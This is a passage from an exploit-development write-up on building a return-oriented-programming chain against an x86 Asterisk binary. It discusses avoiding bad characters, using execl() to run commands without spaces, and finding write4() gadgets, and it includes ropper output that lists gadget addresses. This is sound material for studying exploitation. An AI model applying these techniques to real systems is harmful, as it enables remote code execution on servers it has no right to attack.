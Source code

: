 Note that I only realized this later, after having written an exploit which did not work :-)
The details are written below in the chapter "Fails".

### Trouble with plan b

I assumed that this will not work, because the shellcode is like 500 bytes, so we run
intro trouble because sooner or later we want to write into a memory address
which contains bad chars. Upon writing this writeup, i realized this was not
the case (the ROP code to write the shellcode is 500 bytes, not the shellcode itself).
Only the gadgets contained badchars. Anyway, i abondend this plan.
But the details are written below in the chapter "Fails".

### Working plan

One way around the bad chars restriction would be to write the plan A without spaces,
and then manually write the spaces with some trickery (e.g. decrementing 0x21 to 0x20). But
that was too cumbersome for me, and a very specific solution.

I was thinking a bit about executing bash code without spaces, which naturally led me to execl().
execl() will take an the arguments as parameters, so there is no need for spaces.
There are actually several interesting restrictions, but i'll talk about this in a later chapter.


## write4() gadgets

Lets first create the write4() perl function, which we need to create ROP code to
write arbitrary 4-bytes at a predefined location within the process memory space.

Search for gadgets for the write4() function:
- ret
- pop eax; ret
- pop edx; ret
- mov dword ptr [edx], eax; ret;


I just blindly searched for a "mov [edx], eax", and already got a nice gadget,
and all of his companions.

```
dobin@minime:~/Desktop/sip$ ropper
(ropper)> type rop
(ropper)> file asterisk
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.

(asterisk/ELF/x86)> search mov [edx], eax
[INFO] Searching for gadgets: mov [edx], eax
[INFO] File: asterisk
0x08112483: mov dword ptr [edx], eax; pop ebx; pop ebp; ret;

(asterisk/ELF/x86)> search /1/ pop eax
[INFO] Searching for gadgets: pop eax
[INFO] File: asterisk
0x08096171: pop eax; ret;

(asterisk/ELF/x86)> search /1/ pop edx
[INFO] Searching for gadgets: pop edx
[INFO] File: asterisk
0x0808db7e: pop edx; ret;

(asterisk/ELF/x86)> search /1/ ret
[INFO] Searching for gadgets: ret
[INFO] File: asterisk
....
0x08048af0: ret;
```